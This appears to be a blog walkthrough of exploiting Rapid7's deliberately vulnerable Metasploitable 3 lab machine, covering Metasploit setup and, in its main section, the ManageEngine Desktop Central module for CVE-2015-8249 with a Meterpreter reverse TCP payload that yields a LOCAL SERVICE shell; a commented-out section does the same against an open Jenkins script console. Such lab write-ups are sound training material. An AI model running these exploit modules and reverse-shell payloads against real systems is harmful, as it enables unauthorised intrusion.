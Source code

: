 ```yaml
---
layout: single
title:  "Metasploitable 3 Walkthrough"
date:   2020-07-25 08:49:23 +0100
categories: windows, metasploit
excerpt: An overview of exploiting the vulnerabilities in Metasploitable 3 
---
```

![metasploitable](/images/metasploitable3/msf3-1.png)

# Metasploitable 3 Exploitation Guide

## Introduction

Hello all, in this post I will be going over the ways to exploit code and gain a shell on Rapid7's [Metasploitable 3](https://github.com/rapid7/metasploitable3) machine. Each vulnerability will be split into it's own section and explained with links for reference, I will also go over ways to escalate privileges from LOCAL SERVICE shells to SYSTEM, by combining multiple exploits. Each week I will add more, so consider it a rolling post where I will update it with each new vulnerability I find and then exploit. The link to each section will as usual, be in the table of contents at the side of the page. If you have any questions feel free to reach out to me on my Twitter, or my Discord, both linked at the side. Without further ado, let's get started.

## Links and Resources 
These are just some useful links and resources if you get stuck exploiting the machine.
 - [The projects GitHub Page](https://github.com/rapid7/metasploitable3)
 - [A guide to installing Metasploitable3](https://www.youtube.com/watch?v=errn34YrEjM)
 - [Meterpreter Basics](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
 - [Attacking Metasploitable 3 - Metasploit Minute - Mubix](https://www.youtube.com/watch?v=4HOGfSQEYuE)
 - [List of Metasploitable 3 Vulnerabilities](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)
 - [Details of how Metasploitable 3 is configured](https://github.com/rapid7/metasploitable3/wiki/Configuration)
 - [Metasploit Download](https://github.com/rapid7/metasploit-framework)
 - [A Beginners Guide to Metasploit - HackerSploit](https://www.youtube.com/watch?v=8lR27r8Y_ik&list=PLBf0hzazHTGN31ZPTzBbk70bohTYT7HSm)



## NMAP Scan of Metasploitable 3

![nmap](/images/metasploitable3/nmap.png)

## Metasploit Prerequisites

To make our lives easier I will launch metasploit with the `msfdb run` command to launch msf and start the database for credential storage, I will also use the `setg` command to globally set the RHOST and LHOST to the IP of Metasploitable3 and our local IP respectively.

![msf-1](/images/metasploitable3/msf-1.png)

<!--
## Exploiting the Jenkins Vulnerability 

The first vulnerability we will be exploiting is to do with a poor Jenkins implementation, where the script editor is not locked behind a password, so it allows for unauthenticated remote code execution as LOCAL SERVICE, the module we will be using is, [exploit/multi/http/jenkins_script_console](https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console), all we need to do is load up the module and run `exploit` as we have already set the RHOST and LHOST with `setg`. We also need to make sure that we are using a 64 bit payload as Metasploitable 3 is a 64 bit machine. We can set the correct payload with, `set payload windows/x64/meterpreter/reverse_tcp`.

{% highlight powershell linenos %}
use exploit/multi/http/jenkins_script_console
set payload windows/x64/meterpreter/reverse_tcp
exploit
{% endhighlight %}

-->

## Exploiting Manage Engine - CVE-2015-8249

The first vulnerability we will be exploiting is to do with an outdated Manage Engine Desktop Central implementation, there is a CVE with a metasploit module and this allows for unauthenticated remote code execution as LOCAL SERVICE, the module we will be using is, [exploit/windows/http/manageengine_connectionid_write](https://www.rapid7.com/db/modules/exploit/windows/http/manageengine_connectionid_write), all we need to do is load up the module and run `exploit` as we have already set the RHOST and LHOST with `setg`. We also need to make sure that we are using a 64 bit payload as Metasploitable 3 is a 64 bit machine. We can set the correct payload with, `set payload windows/x64/meterpreter/reverse_tcp`.

{% highlight powershell linenos %}
use exploit/windows/http/manageengine_connectionid_write
set payload windows/x64/meterpreter/reverse_tcp
exploit
{% endhighlight %}

![bingo](/images/metasploitable3/msf-2.png)

Bingo, we got a shell as LOCAL SERVICE. 

Here is a link to an in-depth article exploiting this vulnerability - [Here](https://redteamtutorials.com/2018/10/24/metasploitable-3-exploiting-manage-engine-desktop-central-9/)


 


